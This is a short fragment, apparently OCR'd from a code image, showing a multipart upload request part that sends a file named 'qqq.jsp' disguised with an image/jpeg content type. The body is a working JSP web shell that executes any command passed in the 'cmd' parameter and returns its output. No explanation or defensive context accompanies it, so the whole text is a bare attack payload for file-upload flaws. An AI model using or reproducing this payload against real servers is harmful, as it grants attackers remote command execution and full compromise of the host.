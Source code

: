 Content-Disposition: form-data; name="file"; filename="qqq.jsp"

Content-Type: image/jpeg




<%

java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

int a = -1; byte[] b = new byte[2048]; 

while((a=in.read(b))!=-1) out.println(new String(b,0,a)); 

%>
